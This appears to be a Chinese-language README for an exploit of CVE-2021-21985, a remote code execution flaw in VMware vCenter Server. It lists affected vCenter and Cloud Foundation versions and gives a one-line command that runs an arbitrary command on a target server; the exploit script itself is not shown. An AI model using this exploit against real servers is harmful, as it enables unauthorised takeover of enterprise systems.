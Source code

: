 # CVE-2021-21985 VMware vCenter Server远程代码执行漏洞

影响版本：  
VMware:vCenter Server
- 非7.0 U2b版本的7.0版本
- 非6.7 U3n版本的6.7版本
- 非6.5 U3p版本的6.5版本

VMware:Cloud Foundation
- 低于4.2.1版本的4.x版本
- 低于3.10.2.1版本的3.x版本

exp：
```
python3 CVE-2021-21985_echo.py https://x.x.x.x <cmd>
```
![[exp.png]]



[@r0ckysec](https://github.com/r0ckysec/CVE-2021-21985)